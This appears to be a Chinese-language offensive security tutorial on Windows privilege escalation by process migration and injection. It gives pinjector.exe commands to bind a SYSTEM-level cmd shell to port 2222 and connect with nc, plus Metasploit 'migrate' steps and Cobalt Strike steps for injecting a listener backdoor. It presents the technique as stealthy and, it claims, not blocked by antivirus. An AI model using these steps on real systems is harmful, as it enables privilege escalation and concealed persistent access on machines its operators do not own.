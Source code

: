 ## **进程迁移注入提权**
哪个用户启动的进程，这个进程就是什么用户的权限，低权限用户无法结束高权限启动的进程。
程迁移注入提权就是将获取到权限低的进程注入至进程中权限高的中，这样就实现了权限提升，同时注入进程提权相当于开启了一个后门，隐蔽性极高，不会创建新的进程，很难发现。

利用条件：
这里如果使用的是web权限是无法执行的，必须获取到类似与administrator的权限才能进行进程注入。同时这类提权是不会被杀毒软件拦截的，这是系统的一种特性。

## **injector.exe工具进程注入**
pinjector.exe下载：<https://www.tarasco.org/security/Process_Injector/index.html>
pinjector工具实现进程注入，先下载工具，然后将工具上传需要提权的系统中即可。
```
pinjector.exe -l    列取所有进程，进程后面有运行的角色system

pinjector.exe -p <pid> cmd 2222 
选择一个system权限运行的进程pid，如果提示内存不够换一个pid，对此pid进程执行注入cmd，并监听端口指向这个cmd。

nc 127.0.0.1:2222
此时连接了一个system权限的cmd。
```
^
## **MSF会话中进程迁移提权**
进入会话
ps查看进程，哪些进程是system运行。
migrate 288进程号 ，即可
getuid 为system了


^
## **CS会话中进程注入**
浏览探测-进程列表-选择进程-注入监听器后门